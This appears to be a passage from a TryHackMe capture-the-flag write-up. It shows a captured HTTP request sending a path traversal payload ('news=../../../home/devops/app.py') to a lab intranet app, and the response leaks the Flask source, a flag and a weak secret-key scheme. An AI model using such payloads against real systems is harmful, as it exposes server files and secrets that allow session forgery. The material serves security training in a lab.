 ```bash
</body>
</html>
```




<br>
<br>
<h6>Request</h6>

```bash
POST /internal HTTP/1.1
Host: intranet.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://intranet.thm:8080
Connection: keep-alive
Referer: http://intranet.thm:8080/internal
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.aN1NTg.wj8ABWJCK5uSDPyexxkuF718-94
Upgrade-Insecure-Requests: 1
Priority: u=0, i

news=../../../home/devops/app.py
```

<h6>Response</h6>

```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Wed, 01 Oct 2025 15:56:27 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3742
Vary: Cookie
Connection: close


<!DOCTYPE html>
...
</form>
    
    
      from flask import Flask, flash, redirect, render_template, request, session, abort, make_response, render_template_string, send_file
from time import gmtime, strftime
import jinja2, os, hashlib, random

app = Flask(__name__, template_folder=&#34;/home/devops/templates&#34;)


###############################################
# Flag: THM{4ccacfd73710ac18b4ac15646b32380a} #
###############################################


key = &#34;secret_key_&#34; + str(random.randrange(100000,999999))
app.secret_key = str(key).encode()

def check_hacking_attempt(value):

```